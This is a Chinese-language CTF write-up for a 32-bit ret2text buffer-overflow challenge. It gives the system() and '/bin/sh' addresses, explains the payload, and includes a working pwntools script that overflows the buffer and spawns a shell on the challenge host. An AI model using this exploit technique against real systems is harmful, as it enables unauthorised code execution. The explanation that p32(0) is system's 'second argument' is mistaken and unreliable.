 ```yaml
---
title: 32位
date: '2025-6-14 22:00'
categories:
  - PWN
  - ret2text 栈溢出
---
```

![](/images/{0E02FF5F-B470-4DFF-ACBA-4AB58A61BF8E}.png)
![](/images/{2574EBBA-F48A-4D4A-82BA-B370AF737470}.png)
![](/images/Pastedimage20250605202610.png)
![](/images/Pastedimage20250605203003.png)
![](/images/Pastedimage20250605205511.png)
这里 system 函数的地址：0x80483A0

这里将系统函数与参数分开了，我们需要手动构造，这是ROP？
```
payload = b'a'*(0x12+4) + p32(system) + p32(0) + p32(bin_sh)
b'a' * (0x12 + 4)：这部分是填充，填充的目的是使得输入的长度超过了原本的缓冲区大小，触发缓冲区溢出。
p32(system)：这部分是 system 函数的地址，在利用缓冲区溢出漏洞时，重要的一步是覆盖返回地址，使得程序返回时跳转到 system 函数。
p32(0)：这部分是 system 函数的第二个参数，在大多数情况下，system 函数的第二个参数应该是一个指向空值的指针，表示没有额外的参数，这里使用了0，表示一个空指针。
p32(bin_sh)：这部分是 /bin/sh 字符串的地址，作为 system 函数的第一个参数，/bin/sh 是一个用于启动 shell 的路径，在利用缓冲区溢出漏洞时，我们可以使用这个参数来告诉 system 函数要执行的命令。
```
首先在溢出后填入 system 函数的地址，这个地址将覆盖程序返回地址，以便控制程序流程。
此外我们需要考虑函数调用栈的结构：system函数的第一个参数通常是一个指向要执行的命令的字符串，如 /bin/sh，需要将这个字符串的地址作为参数传递给 system 函数，system 函数的第二个参数通常是一个指向空值的指针，表示没有额外的参数。在 payload 中，可以使用任意值，比如  0 ，使用 p32() 函数将地址转换为4字节的字符串，也可以用其他任意 4 字节字符，如 'aaaa'，最后再加上 bin/sh 的地址，我们就能够利用缓冲区溢出漏洞成功调用 system("/bin/sh")，从而获取到所需的 shell。
![](/images/{24A745DD-622B-4D5D-89E0-A74989D98664}.png)
/bin/sh 字符串的地址： 0x8048750
```python
from pwn import *
context.log_level = 'debug'
p = remote('10.190.131.17', 28118)
payload = b'a'*(0x12+4) + p32(0x80483A0) + p32(0) + p32(0x8048750)
p.sendline(payload)
p.interactive()
```
![](/images/{E620E748-CEBD-4166-BD5C-889B55FC7B0C}.png)
















